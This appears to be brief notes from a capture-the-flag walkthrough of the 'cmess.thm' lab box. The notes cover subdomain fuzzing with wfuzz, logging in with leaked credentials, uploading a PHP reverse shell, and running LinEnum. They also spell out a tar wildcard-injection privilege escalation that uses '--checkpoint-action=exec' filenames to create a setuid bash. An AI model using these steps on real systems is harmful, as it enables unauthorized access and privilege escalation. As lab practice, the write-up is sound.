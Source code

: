 add webpage to host file

ran dirsearch
ran wfuzz (find sub domain)

wfuzz -c -f sub-fighter -w top5000.txt -u 'http://cmess.thm' -H "HOst: FUZZ.cmess.thm" 

ran command again with  --hw 290 added to the end to filter trash response

add dev.cmess.thm to /etc/hosts
visited dev.cmess.thm

found andre's email and password

used them to login into admin page

uploaded php reverse shell
visited /assets/phpsell.php  (to activate reverse shell)

ran python server in my transfer directory

on tgt box wget linenum to /tmp

ran linenum found /opt/.password.bak
 ran cat got password to andre
 used it to ssh in as andre got first flag

  ![[cmess.png]]

 echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > shell.sh
 chmod +x shell.sh 
 touch /home/andre/backup/--checkpoint=1
 touch /home/andre/backup/--checkpoint-action=exec=sh\ shell.sh
/tmp/bash -p
